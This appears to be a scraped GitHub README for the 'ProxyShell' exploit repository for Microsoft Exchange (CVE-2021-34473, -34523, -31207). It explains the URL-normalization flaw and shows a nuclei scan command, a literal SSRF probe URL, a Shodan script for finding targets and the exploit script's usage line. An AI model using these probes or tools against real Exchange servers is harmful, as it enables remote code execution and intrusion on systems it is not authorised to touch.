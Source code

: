 # ProxyShell

CVE-2021-34473 Microsoft Exchange Server Remote Code Execution Vulnerability

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/kh4sh3i](https://github.com/kh4sh3i) |
| Url      | [https://github.com/kh4sh3i/ProxyShell](https://github.com/kh4sh3i/ProxyShell)                                               |
| Stars    | 6                                                          |
| License  | Creative Commons Zero v1.0 Universal                                                        |

<details><summary>Topic / Tags</summary></details>

## Readme

# ProxyShell (CVE-2021-34473)
CVE-2021-34473 Microsoft Exchange Server Remote Code Execution Vulnerability.
This faulty URL normalization lets us access an arbitrary backend URL while running as the Exchange Server machine account. Although this bug is not as powerful as the SSRF in ProxyLogon, and we could manipulate only the path part of the URL, it’s still powerful enough for us to conduct further attacks with arbitrary backend access.


* CVE-2021-34523 - Exchange PowerShell Backend Elevation-of-Privilege
* CVE-2021-31207 - Post-auth Arbitrary-File-Write





## Scanner
nuclei scanner for Proxyshell RCE (CVE-2021-34423,CVE-2021-34473,CVE-2021-31207) discovered by orange tsai in Pwn2Own, which affect microsoft exchange server.
```
nuclei -u target.com -t proxyshell.yaml
```

```
https://xxx.xxx.xxx.xxx/autodiscover/autodiscover.json?@foo.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3f@foo.com
```

## shodan target 
```python
sudo python3 shodan-query.py
```


## Usage
```python
sudo python3 ProxyShell.py -u https://<IP>
```
